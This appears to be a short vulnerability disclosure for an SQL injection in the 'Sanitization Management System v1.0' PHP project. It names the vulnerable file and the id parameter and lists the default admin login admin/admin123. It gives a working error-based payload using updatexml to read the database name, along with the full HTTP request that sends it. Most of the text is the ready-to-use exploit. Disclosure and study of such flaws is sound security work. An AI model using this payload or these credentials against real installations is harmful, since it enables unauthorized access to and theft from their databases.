 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: ep0ch

Login account: admin/admin123 (SuperAdmin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php 8.1 version

Vulnerability File: /php-sms/admin/services/view_service.php

Vulnerability location: /php-sms/admin/?page=services/view_service&id=

Vulnerability Parameter: id

dbname =sms_db,length=6

[+] Payload: /php-sms/admin/?page=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ 


exp:
```
GET /php-sms/admin/?page=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![sqli](https://user-images.githubusercontent.com/66857673/198275712-19324a37-30d1-4aa4-ab8e-2f573ed90138.png)

